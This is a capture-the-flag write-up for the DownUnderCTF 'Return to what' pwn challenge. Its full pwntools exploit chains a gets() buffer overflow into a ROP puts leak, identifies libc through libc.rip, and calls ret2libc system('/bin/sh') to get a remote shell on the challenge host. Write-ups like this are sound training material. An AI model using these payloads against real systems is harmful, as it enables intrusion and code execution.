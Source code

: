 # DownUnderCTF

## Return to what

> 200
>
> Author: Faith
>
> This will show my friends!
>
> `nc chal.duc.tf 30003`
>
> Attached files:
>
>    * [return-to-what](return-to-what) (sha256: a679b33db34f15ce27ae89f63453c332ca7d7da66b24f6ae5126066976a5170b)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`... again.  

This is the same as [_Shell this!_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/shellthis) sans the _win_ function.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
void vuln(void)

{
  char local_38 [48];
  
  puts("Where would you like to return to?");
  gets(local_38);
  return;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x38` bytes (gotta love how Ghidra tells you that, i.e. `local_38`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./return-to-what')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.duc.tf', 30003)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x38 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.vuln)

p.sendlineafter('Where would you like to return to?\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `vuln` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)
    
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x38 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('Where would you like to return to?\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/downunderctf2020/return_to_what/return-to-what'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.duc.tf on port 30003: Done
[*] Loaded 14 cached gadgets for './return-to-what'
[*] puts: 0x7fa650a129c0
[*] '/pwd/datajerk/downunderctf2020/return_to_what/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fa650992000
[*] Switching to interactive mode
$ id
uid=1000 gid=999 groups=999
$ ls -l
total 24
-rw-r--r-- 1 65534 65534    38 Sep  4 04:31 flag.txt
-rwxr-xr-x 1 65534 65534 16664 Sep  4 04:31 return-to-what
$ cat flag.txt
DUCTF{ret_pUts_ret_main_ret_where???}
```